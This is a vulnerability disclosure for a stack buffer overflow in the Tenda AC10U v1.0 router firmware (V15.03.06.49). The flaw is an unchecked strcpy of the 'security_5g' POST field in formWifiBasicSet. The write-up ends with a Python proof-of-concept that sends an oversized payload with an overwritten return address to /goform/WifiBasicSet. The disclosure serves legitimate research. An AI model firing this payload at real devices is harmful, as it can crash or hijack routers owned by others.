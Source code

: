 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.49 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `security_5g` variable receives the `security_5g` parameter from a POST request and is later assigned to the `param_5g` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(param_5g, security_5g);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `param_5g` array, triggering this security vulnerability.

![image-20240309193205961](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193205961.png)

![image-20240309193158542](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193158542.png)

![image-20240309193217279](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193217279.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)
